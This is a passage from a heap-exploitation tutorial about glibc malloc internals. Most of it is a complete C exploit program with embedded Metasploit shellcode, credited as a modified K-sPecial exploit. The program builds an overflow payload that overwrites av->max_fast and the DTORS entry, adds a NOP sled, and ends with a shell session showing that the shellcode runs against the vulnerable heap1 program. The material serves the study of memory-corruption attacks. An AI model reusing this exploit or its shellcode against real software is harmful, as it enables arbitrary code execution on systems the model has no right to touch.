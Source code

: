 It is clear that both pointers are overwritten with the address of the
previous and next chunks to our overflowed chunk "p".

What happens if we place 16 NOPS?

[-----]
/*
 * K-sPecial exploit modified by blackngel
 */

#include <stdio.h>

/* linux_ia32_exec -  CMD=/usr/bin/id Size=72 Encoder=PexFnstenvSub
http://metasploit.com */
unsigned char scode[] =
"\x31\xc9\x83\xe9\xf4\xd9\xee\xd9\x74\x24\xf4\x5b\x81\x73\x13\x5e"
"\xc9\x6a\x42\x83\xeb\xfc\xe2\xf4\x34\xc2\x32\xdb\x0c\xaf\x02\x6f"
"\x3d\x40\x8d\x2a\x71\xba\x02\x42\x36\xe6\x08\x2b\x30\x40\x89\x10"
"\xb6\xc5\x6a\x42\x5e\xe6\x1f\x31\x2c\xe6\x08\x2b\x30\xe6\x03\x26"
"\x5e\x9e\x39\xcb\xbf\x04\xea\x42";

int main (void) {

     int i, j;

   for (i = 0; i < 44 / 4; i++)
          fwrite("\x02\x01\x00\x00", 4, 1, stdout); /* av->max_fast-12 */

   for (i = 0; i < 984 / 4; i++)
          fwrite("\x48\x96\x04\x08", 4, 1, stdout); /* DTORS_END - 8   */

   for (i = 0; i < 721; i++) {
          fwrite("\x09\x04\x00\x00", 4, 1, stdout); /* PRESERVE SIZE   */
          for (j = 0; j < 1028; j++)
                  putchar(0x41);                    /* PADDING         */
   }
   fwrite("\x09\x04\x00\x00", 4, 1, stdout);

   for (i = 0; i < (1024 / 4); i++)
          fwrite("\x14\xa0\x04\x08", 4, 1, stdout);

   fwrite("\xeb\x0c\x90\x90", 4, 1, stdout); /* prev_size -> jump 0x0c */

   fwrite("\x0d\x04\x00\x00", 4, 1, stdout); /* size -> NON_MAIN_ARENA */

   fwrite("\x90\x90\x90\x90\x90\x90\x90\x90" \
          "\x90\x90\x90\x90\x90\x90\x90\x90", 16, 1, stdout);  /* NOPS */

   fwrite(scode, sizeof(scode), 1, stdout); /* SHELLCODE */

   return 0;
}

[-----]

blackngel@linux:~$ ./exploit > file
blackngel@linux:~$ ./heap1 < file
ptr found at 0x804a008
good heap allignment found on malloc() 724 (0x81002a0)
uid=1000(blackngel) gid=1000(blackngel) groups=4(adm),20(dialout),
24(cdrom),25(floppy),29(audio),30(dip),33(www-data),44(video),
46(plugdev),104(scanner),108(lpadmin),110(admin),115(netdev),
117(powerdev),1000(blackngel),1001(compiler)
blackngel@linux:~$ 
